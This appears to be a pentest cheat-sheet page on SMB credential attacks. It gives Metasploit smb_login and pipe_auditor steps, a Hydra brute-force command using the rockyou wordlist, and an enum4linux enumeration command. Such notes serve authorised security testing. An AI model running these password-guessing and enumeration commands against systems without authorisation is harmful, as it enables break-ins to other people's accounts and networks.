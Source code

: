 # Dictionary Attack

This module will test an SMB login on a range of machines and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access.

## Metasploit

```bash
msfconsole
use auxiliary/scanner/smb/smb_login 
set rhosts $IP
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set smbuser $USER_NAME # first there`s a need to enumerate some users
run
```

## Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP smb

```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## SMB pipes

```bash
msfconsole
use auxiliary/scanner/smb/pipe_auditor
set smbuser $USER_NAME
set smbpass $PASSWORD
set rhosts $IP
run
```

## enum4linux

```bash
enum4linux -r -u "$USER_NAME" -p "$PASSWORD"
```

